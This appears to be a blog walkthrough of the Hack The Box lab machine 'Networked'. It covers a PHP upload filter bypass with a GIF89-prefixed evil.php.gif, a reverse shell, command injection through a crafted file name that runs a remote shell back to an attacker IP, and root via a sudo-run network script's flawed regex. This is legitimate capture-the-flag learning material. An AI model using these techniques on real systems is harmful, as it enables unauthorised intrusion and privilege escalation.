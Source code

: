 ```yaml
---
layout: post
title: "HTB-Networked"
categories: HTB-Walkthrough
---
```



![networked](/assets/img/networked/networked1.png)


This box was 'Active' when I first compromised it, and in my rush to elevate my 'status' on HTB 
I was left with the nagging thought that I didn't fully understand why my privesc to root worked. I made a mental note to come back and have another look.

Nmap first:

```
nmap 10.10.10.146 -sV -Pn |tee -a net.txt
```

```

Nmap scan report for 10.10.10.146
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

```


<hr width="250" size="6">


Checking out the webserver on port 80 first.

There's a hint in the source:

![web](/assets/img/networked/net-web.png)



```
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.146/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -e .gif
```

![backup](/assets/img/networked/net-backup.png)


```
tar xvf backup.tar

index.php
lib.php
photos.php
upload.php

```

`http://10.10.10.146/upload.php`

![uploadphp](/assets/img/networked/net-uploadphp.png)


<h3>Exploit Upload Evil.php.gif</h3>

We should upload evil.php
Rename it evil.php.gif and preprend GIF89 to the top of the file.

Trigger it by browsing to:
```
http://10.10.10.146/photos.php
```

![photosphp](/assets/img/networked/net-photosphp.png)


```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 33466
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:58:47 up  2:44,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

<hr width="250" size="6">



<h3>Privesc to Guly</h3>


There's an interesting php file in guly's home directory:



```

cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```


This line is vulnerable to a code injection:
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

It will execute the removal of the file, but we can append a second command to the first which will be 
executed by `guly`.


Go to the /var/www/html/uploads/ folder.
guly's php script pulls from here, we can use `touch` to create a file and execute an additional command.


we cannot use the normal " nc 10.10.14.7 -e /bin/bash" command, so we need an alternative.


```
bash-4.2$ touch "test  && 10.10.14.7 9999 --sh-exec bash"
```

catch the shell on `nc -nlvp 9999`

![gulyshell](/assets/img/networked/net-gulyshell.png)


and get the user flag:

```

ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt                                                                  
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo                                                                  
cat user.txt                                                                                                       
52xxxxxxxxxxxxxxxxxxxxxxxxxxxxc5  

```


<h3>Privesc to Root</h3>


sudo su fails, as expected but we can list sudo commands for `guly` with `sudo -l`.

![sudol](/assets/img/networked/net-sudol.png)


lets have a look at the file:

```

cat changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
y
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

```

This looks a bit dangerous. A bit like a 'Do It Yourself' `sudo su` command that can generate the shell of any user.



test it out:

run the file....
```
sudo /usr/local/sbin/changename.sh
```

then enter `sudo su` for everything......
get root shell.....

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
sudo su
sudo su
interface PROXY_METHOD:
sudo su
sudo su
interface BROWSER_ONLY:
sudo su
sudo su
interface BOOTPROTO:
sudo su
sudo su
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0axxxxxxxxxxxxxxxxxxxxxxxxxxxx82
[root@networked network-scripts]#

```

I guess it was executing `su` as root, either from the initial `sudo` executing the script,
or one of the entries in the 'user input' parts but I didn't stick around long enough to reason why, 
I just grabbed the flag and ran!

<h3>Revisited</h3>


I had intended to revisit this box to work out why my 'keyboard mashing' privesc worked...but I didnt; so when the box was retired I had a look at some write-ups for the box; [0xdf's writeup](https://0xdf.gitlab.io/2019/11/16/htb-networked.html) investigates
this last phenomenom, and finds that the script's regex sanitizes the first bit of text but executes what comes after the space.

so it executed the `su` after the space....so I could have typed `foo su` for each entry and got the same result.

revisiting the box, I confirm this:

![foosu](/assets/img/networked/net-foosu.png)


:)




